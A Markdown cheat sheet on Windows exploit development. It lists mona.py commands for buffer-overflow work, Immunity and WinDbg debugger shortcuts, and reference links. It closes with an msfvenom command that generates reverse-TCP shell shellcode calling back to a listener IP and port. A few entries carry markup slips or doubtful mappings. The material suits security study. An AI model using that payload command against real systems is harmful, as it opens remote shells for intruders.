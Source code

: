 ```yaml
---
title: Windows Exploit Dev
category: Exploit Development
order: 1
---
```


> **Mona** 

Run a Program | <code> nbd --run /path/to/program </code>
Set Working Folder | <code> !mona config -set workingfolder c:\logs\%p </code>
Set Modules to Exclude | <code> !mona config -set excluded_modules "module1.dll,module2.dll" </code>
Generate cyclic pattern | <code> !mona pc [size] </code>
Find offset | <code> po [address] </code>
find register overwritten with pattern |  <code>  findmsp </code> 
Generate bytes from 0x00 to 0xff excluding badchars | <code>  bytearray -b [badchars] </code> 
find a jump point | <code> jmp -r [register] </code> 
skip modules that start with 0x00 |-n </code> 
skip os modules | <code> -o </code>  
Module <code> -m </code>
Module property | <code> -cm </code>
filter bad chars | <code> -cpd  </code>

> ***Additional Resources***

* [Mona Manual](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

> **Debuggers: Immunity** 

Go to a memory address|  Right Click → Go to → Expression (Ctrl+G)
Breakpoint | F2
Step | F7
Exec till Return | Ctrl+F9
Run | F9
Pause | F12

> ***Additional Resources***

* [Immunity](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982)


> **Debuggers: WINDBG** 

Open Executable | CTRL+E
Attach to process | F6
Memory | Alt+5
Close Window | Ctrl+F4
Restart | Ctrl+Shift+F5
Break | Ctrl+Break
d esp | dump register
g | pass exception
gN | step
bp [address] | breakpoint
bl | list breakpoints
!exchain | view exception chain
.load pykd.pyd | load python
exceute mona stuff | <code> !py mona [command] [args] </code>
Find instruction from opcode | <code> a [enter] jmp esp [enter] [enter] </code>
Find instruction from opcode | <code> u [address from above] </code>
Inspect | u [address]  
View stack | u
Step | t

> **Shellcode** 

{% highlight bash %}
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.37.1 LPORT=4321  -b '\x00\x09\x0a' -f python
{% endhighlight %}





